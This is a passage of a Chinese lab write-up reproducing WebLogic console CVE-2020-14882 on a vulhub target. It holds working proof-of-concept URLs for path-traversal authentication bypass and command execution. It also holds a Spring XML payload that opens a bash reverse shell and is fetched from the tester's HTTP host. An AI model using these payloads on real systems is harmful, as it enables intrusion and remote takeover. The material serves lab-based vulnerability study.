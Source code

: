 访问该url之后，进入如下页面，可以看见成功进入管理台：

![image-20210814220636352](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fabbbbe502dd7f85fba7f0fe9c0f6149b2daef3a.png)

CVE-2020-14882: 代码执行漏洞的poc：

```php
http://192.168.0.106:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.
mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/zcc123%27);%22);
```

这里复现用的vulhub靶场

![image-20210814222333621](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3930d07370a22fab8cea925fde9bd1a5aa0a2944.png)

访问报404，不要慌，此时去容器中看会发现文件已成功写入；

![image-20210814221311713](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8d1728a795c64348379b48b285aa43031b6b5a11.png)

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6e82ea2fd4ed93c59ec27954aa6ed24c05a5eafa.png)

这里执行反弹shell的xml文件poc.xml：

```php
## poc.xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/192.168.0.104/6669 0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

把poc.xml放在打开http服务的kali机子上(ip:192.168.0.108)：

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6e7bec09d807fe9e492ecd492a9549aa508a2d00.png)

在监听机子上开启监听：

![image-20210814223442393](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f4c88e9fc28f6999b6805cf5942f886ab763ae20.png)

然后访问该url：

```php
http://192.168.0.106:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged
.springframework.context.support.ClassPathXmlApplicationContext("http://192.168.0.108/poc.xml")
```

